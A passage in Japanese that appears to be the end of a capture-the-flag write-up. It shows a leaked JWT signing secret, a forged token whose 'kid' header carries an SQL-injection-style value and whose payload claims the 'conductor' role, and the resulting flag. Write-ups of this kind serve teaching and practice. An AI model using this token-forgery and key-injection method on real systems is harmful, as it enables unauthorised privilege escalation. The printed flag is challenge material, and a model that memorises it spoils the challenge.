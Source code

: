 conductorのJWTシークレットが取得できました。

```text
conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
```

後はそのシークレットを使って、payload部分をconductorにしたJWTを作成すれば良さそうです。

```text
{
  "alg": "HS256",
  "kid": "ffifdyop",
  "typ": "JWT"
}
{
  "type": "conductor"
}
```

```text
eyJhbGciOiJIUzI1NiIsImtpZCI6ImZmaWZkeW9wIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoiY29uZHVjdG9yIn0.UWnlGAPq5mP7wUsxzL9OIP9bpK9OI-Qd7NSNRjVw-ec
```

conductorのJWTを送信すると、flagが表示されました。

```json
{"message":"Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}","success":true}
```
